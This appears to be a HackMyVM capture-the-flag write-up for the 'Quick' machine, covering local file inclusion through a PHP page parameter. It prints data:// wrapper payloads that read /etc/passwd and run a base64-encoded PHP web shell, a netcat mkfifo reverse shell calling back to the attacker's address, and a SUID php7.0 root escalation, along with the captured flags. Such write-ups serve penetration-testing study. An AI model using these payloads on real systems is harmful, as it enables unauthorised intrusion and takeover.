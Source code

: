 ```yaml
---
title: HackMyVM - Quick
date: 2024-01-31
tags: [LFI] [LFI2RCE] [PHP-LFI]
---
```


# Enumeration
- - -
## Ports
- 80 Apache/HTTP
I discovered LFI in the endpont
```
http://192.168.56.101/index.php?page=
```
since i know it's PHP, i used some PHP wrappers from [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data)
- Get `/etc/passwd`
```
data://text/plain,<?php echo base64_encode(file_get_contents("/etc/passwd")); ?>
```
# Foothold
- - -
I see there's a user `andrew` on the target and i can read their home directory which contains the user flag.
I'll use one of the payloads to get RCE and retrieve #user-flag 
Payload:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="cat+/home/andrew/user.txt""
```
Result:
```
    <main>


                                 _________
                          _.--""'-----,   `"--.._
                       .-''   _/_      ; .'"----,`-,
                     .'      :___:     ; :      ;;`.`.
                    .      _.- _.-    .' :      ::  `..
                 __;..----------------' :: ___  ::   ;;
            .--"". '           ___.....`:=(___)-' :--'`.
          .'   .'         .--''__       :       ==:    ;
      .--/    /        .'.''     ``-,   :         :   '`-.
   ."', :    /       .'-`\\       .--.\ :         :  ,   _\
  ;   ; |   ;       /:'  ;;      /__  \\:         :  :  /_\\
  |\_/  |   |      / \__//      /"--\\ \:         :  : ;|`\|
  : "  /\__/\____//   """      /     \\ :         :  : :|'||
["""""""""--------........._  /      || ;      __.:--' :|//|
 "------....______         ].'|      // |--"""'__...-'`\ \//
   `|HMV{flag-flag}|.--'": :  \    //  |---"""      \__\_/
     """""""""'            \ \  \_.//  /
       `---'                \ \_     _'
                             `--`---'
```

# Privilege Escalation 
- - -
- Get reverse shell using this payload:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%203371%20%3E%2Ftmp%2Ff""
```
- Stabilize the shell
Looking at he `SUID` binaries i see an unusual binary `/usr/bin/php7.0` according to [php | GTFOBins](https://gtfobins.github.io/gtfobins/php/) i can spawn a shell as root:
```
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```
- retieve root flag
```
# cat /root/root.txt


            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
 /     : /,------------------------.:    \
:      |`.    | | [_FLAG_] ||     ,'|     :
`\.____|  `.  : `.________.'|   ,'  |____.'
  MMMMM|   |  |`-.________.-|  /    |MMMMM
 .-------------`------------'-'-----|-----.
(___HMV{6ff5f1b9238a96b3c3871c67a215ec80}__)
  MMMMMM                            MMMMMM
  `MMMM'                            `MMMM'
```
